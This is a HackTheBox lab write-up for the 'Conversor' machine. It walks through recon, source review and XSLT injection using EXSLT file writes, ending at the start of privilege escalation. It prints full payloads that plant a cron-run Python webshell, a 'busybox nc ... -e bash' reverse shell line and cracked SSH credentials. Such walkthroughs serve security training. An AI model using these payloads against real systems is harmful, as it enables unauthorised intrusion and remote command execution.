---
title: 'HTB-Conversor'
published: 2025-10-26
draft: false
toc: true
tags: ["xslt-injection", "needrestart", "xml"]
---

import PasswordProtect from "~/components/PasswordProtect.client";

```
Scope:
10.10.11.92
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -vvvv -T5 --min-rate=5000 -Pn conversor.htb 

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.52
| http-title: Login
|_Requested resource was /login
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<PasswordProtect client:load>

## 80/TCP - HTTP



Using default `admin - admin` credentials I was able to log in:



We notice that it's some sort of **File Upload Attack** involving `xml` and `xslt` files.

I also noticed the JWT session cookie:





Before diving deeper into it I did a directory enum first:



I went over to the `/about` page:


I downloaded the source code and took a look at it:



What was odd is that the *password* field was just being saved as `TEXT` in the `users.db`:



### Source Code analysis

By skimming through the source code we find that the backend is running on **Flask**:



We find multiple interesting finds like the `app.secret.key`:


The `DB_PATH`:



Further down we see the `/login` page functionality:



Lastly we find the `/convert` logic as well as how to view the files:



### XXE - FAIL

So I went ahead and tested the upload functionality:





I then went ahead and uploaded this together with the sample `xslt` file:





So naturally I tried to achieve **Local File Read** by using the following files:



This however gave me the following error:



Unfortunately this didn't work so I had to look further.


### XSLT Injection

I then referred to the [following repo](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#write-files-with-exslt-extension):





Checking out the `install.md` file which is already present in the source code we find this:



That means that we now know the path to write to.

# Exploitation
## RCE as www-data

I tried many payloads but in the end none worked. So instead I opted for uploading a webshell first:

1. Upload `webshell.xslt`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl"
  version="1.0">
  <xsl:template match="/">
    <exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text"><![CDATA[#!/usr/bin/env python3
# Cron-driven webshell runner
# - reads /var/www/conversor.htb/static/cmd.txt
# - executes its contents (shell)
# - writes output to /var/www/conversor.htb/static/out.txt
# - clears cmd.txt to avoid re-run

import os, subprocess, traceback, time

CMD_FILE = "/var/www/conversor.htb/static/cmd.txt"
OUT_FILE = "/var/www/conversor.htb/static/out.txt"
TMP_FILE = "/tmp/shell_runner_tmp"

def write_out(data_bytes):
    try:
        with open(OUT_FILE, "wb") as f:
            f.write(data_bytes)
    except Exception as e:
        try:
            with open(OUT_FILE, "wb") as f:
                f.write(str(e).encode())
        except:
            pass

try:
    if os.path.exists(CMD_FILE):
        # read command (strip leading/trailing whitespace)
        try:
            with open(CMD_FILE, "r") as f:
                cmd = f.read().strip()
        except:
            cmd = ""
        if cmd:
            try:
                # run command via shell so pipes/etc. work
                p = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
                out, _ = p.communicate(timeout=60)
                if out is None:
                    out = b''
            except Exception:
                out = traceback.format_exc().encode()
            # write output atomically
            try:
                with open(TMP_FILE, "wb") as t:
                    t.write(out)
                os.replace(TMP_FILE, OUT_FILE)
            except Exception:
                write_out(out)
            # clear command file to avoid re-execution
            try:
                open(CMD_FILE, "w").close()
            except:
                pass
except Exception:
    write_out(traceback.format_exc().encode())
]]></exsl:document>
    <xsl:text>done-writing-shell</xsl:text>
  </xsl:template>
</xsl:stylesheet>
```

Once that was uploaded I uploaded the following script: 

2. Upload `write_cmd.xslt`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl"
  version="1.0">
  <xsl:template match="/">
    <exsl:document href="/var/www/conversor.htb/static/cmd.txt" method="text"><![CDATA[id
]]></exsl:document>
    <xsl:text>done-writing-cmd</xsl:text>
  </xsl:template>
</xsl:stylesheet>
```

I then uploaded it and confirmed RCE:



Once I confirmed that it worked as I wanted I went ahead and uploaded the final version.

3. Upload modified version of `write_cmd.xslt`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl"
  version="1.0">
  <xsl:template match="/">
    <exsl:document href="/var/www/conversor.htb/static/cmd.txt" method="text"><![CDATA[busybox nc 10.10.14.3 443 -e bash
]]></exsl:document>
    <xsl:text>done-writing-cmd</xsl:text>
  </xsl:template>
</xsl:stylesheet>
```

After a short while I got a hit:



Once I was in I checked the present users:



## Enumeration

I started checking out the directory I landed in and found a populated `users.db`:



This is an easily crackable `md5` hash:



## SSH as fismathack

Using the found creds I logged in via `ssh`:

```
fismathack
Keepmesafeandwarm
```



### user.txt



# Privilege Escalation
## needrestart

Using `sudo -l` I found this:

